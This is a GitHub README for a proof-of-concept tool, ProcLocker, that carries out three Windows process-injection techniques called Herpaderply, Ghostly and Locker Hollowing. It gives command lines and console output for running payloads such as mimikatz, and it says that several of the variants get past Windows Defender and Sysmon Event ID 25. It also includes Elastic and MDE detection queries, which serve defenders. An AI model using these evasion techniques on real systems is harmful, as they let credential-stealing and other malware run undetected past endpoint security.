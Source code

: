 # Herpaderply Hollowing | Ghostly Hollowing | Locker Hollowing
This is just a PoC script of Herpaderply Hollowing, Ghostly Hollowing and Locker Hollowing. See how to encrypt payload and self inject in [PELoader](https://github.com/Hagrid29/PELoader).

Process Locker is my version of variation of Process Herpaderping. Instead of overwriting the payload just after the execution, Process Locker duplicate the file handle of payload to a running process in order to "lock" the file. The "locked" payload usually not examined by AV/EDR.


Credits: most of my work was based on @hasherezade's [PoC](https://github.com/hasherezade/transacted_hollowing).

## Characteristics of each hollowing 

- Payload mapped as `MEM_IMAGE`
- Sections mapped with original access rights (no `RWX`)
- Payload connected to PEB as the main module

### Herpaderply Hollowing

Herpaderply Hollowing is a hybrid between Process Hollowing and [Process Herpaderping](https://jxy-s.github.io/herpaderping/)

![HerpaderplyHollowing](img/HerpaderplyHollowing.png)

Process Herpaderping

```
cmd> .\ProcLocker.exe herpaderp process callback.exe 
```

Herpaderply Hollowing

```
cmd> .\ProcLocker.exe herpaderp hollow callback.exe 
[+] Created temp file: C:\Users\XXX\AppData\Local\Temp\TH1F9C.tmp
[+] Written!
[+] Overwriting file content
[+] Created Process PID: 21812
[+] Resuming PID 21812
[+] Done!
```



Windows Defender detect Process Herpaderping while failed to detect Herpaderply Hollowing

Elastic suggest to identify process execution followed by a file overwrite of an executable by the same parent process. [ref](https://www.elastic.co/guide/en/security/current/potential-process-herpaderping-attempt.html)

```
sequence with maxspan=5s [process where event.type == "start" and
not process.parent.executable :
"C:\\Windows\\SoftwareDistribution\\*.exe"] by host.id,
process.executable, process.parent.entity_id [file where event.type
== "change" and event.action == "overwrite" and file.extension ==
"exe"] by host.id, file.path, process.entity_id
```



### Ghostly Hollowing

[Ghostly Hollowing](https://github.com/hasherezade/transacted_hollowing#ghostly-hollowing) is a hybrid between Process Hollowing and Process Ghosting

![GhostlyHollowing](img/GhostlyHollowing.png)

Process Ghosting

```
cmd> .\ProcLocker.exe ghost process mimikatz.exe
```

Ghostly Hollowing

```
cmd> .\ProcLocker.exe ghost hollow callback.exe
```



Windows Defender failed to detect Process Ghosting and Ghostly Hollowing.

The program map the payload from a delete pending file. It could be an indicator of process ghosting or ghostly hollowing. I wrote a MDE rule for example below.

```
DeviceImageLoadEvents
| where TimeStamp >= ago(1h)
| where SHA1 == ""
```



### Locker Hollowing

Locker Hollowing is a hybrid between Process Hollowing and Process Lockering.

![LockerHollowing](img/LockerHollowing.png)

Locker Hollowing

```
.\ProcLocker.exe locker process mimikatz.exe 19408 auto
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH82F6.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked 
[+] Process created! Pid = 11976
[+] Done!
```

First "lock" the payload by duplicating file handle to a running process. Then map the payload from the "locked" file and execute it. Finally, clean up the "locked" payload.

```
cmd> .\ProcLocker.exe lock mimikatz.exe 19408
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH1827.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked

cmd> .\ProcLocker.exe locker process TH1827.tmp 19408 exec
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Process created! Pid = 12080
[+] Done!

.\ProcLocker.exe clear TH1827.tmp 19408 
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Releasing the file handle. You can manually remove the file
[+] Overwriting file content
```



Windows Defender detect Process Lockering while failed to detect Locker Hollowing.

The program map the payload from a "locked" file. It could be an indicator of process Lockering.



### Sysmon Event ID 25

Sysmon Event ID 25 triggers "when the mapped image of a process doesn't match the on-disk image file, or the image file is locked for exclusive access."

It would be logged for process herpaderping, process ghosting and process lockering. However, it would not be logged for Herpaderply Hollowing, Ghostly Hollowing or Locker Hollowing.

![detection-of-process-lockering](img/detection-of-process-lockering.png)

![detection-of-process-ghosting](img/detection-of-process-ghosting.png)



## References

* https://jxy-s.github.io/herpaderping/
* https://github.com/hasherezade/transacted_hollowing
* https://www.x86matthew.com/view_post?id=hijack_file_handle



